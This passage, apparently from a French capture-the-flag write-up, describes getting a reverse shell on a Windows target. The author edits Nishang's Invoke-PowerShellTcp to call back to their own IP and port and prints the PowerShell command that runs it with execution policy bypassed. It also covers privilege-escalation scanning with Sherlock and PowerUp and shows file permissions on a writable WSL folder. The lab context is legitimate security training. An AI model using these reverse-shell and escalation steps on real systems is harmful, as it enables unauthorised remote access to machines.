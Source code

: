 Pour obtenir un reverse shell j'ai uploadé le script [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) de *Nishang* après l'avoir édité pour rajouter l'instruction d'appel du reverse shell (spécifiant mon IP et mon port).  

Le script s'appelle de cette façon :  

```bash
powershell.exe -nop -exec bypass -Command "& .\Invoke-PowerShellTcp.ps1"
```

A partir de ce shell j'ai chargé et exécuté différents scripts (*Find-AllVulns* de [Sherlock](https://github.com/rasta-mouse/Sherlock) et différentes méthodes de [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)) sans résultats.  

Pimp my Windows
---------------

A la racine du disque C on trouve un dossier *Distros* énigmatique :  

```plain
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of c:\Distros\Ubuntu

09/01/2018  06:47 AM    <DIR>          .
09/01/2018  06:47 AM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  32,692,867,072 bytes free
```

Il s'agit en fait de *WSL* (*Windows Subsystem for Linux*) qui permet aux utilisateurs de la lucarne d'avoir finalement un shell civilisé :p  

Ces fichiers sont modifiables par les utilisateurs authentifiés (par login). Il y a toutefois un fichier de signature et ce serait peut être compliqué de s'y attaquer :  

```plain
c:\Distros\Ubuntu\ubuntu.exe BUILTIN\Administrators:(I)(F)
                             NT AUTHORITY\SYSTEM:(I)(F)
                             BUILTIN\Users:(I)(RX)
                             NT AUTHORITY\Authenticated Users:(I)(M)

c:\Distros\Ubuntu\AppxSignature.p7x BUILTIN\Administrators:(I)(F)
                                    NT AUTHORITY\SYSTEM:(I)(F)
                                    BUILTIN\Users:(I)(RX)
                                    NT AUTHORITY\Authenticated Users:(I)(M)
```
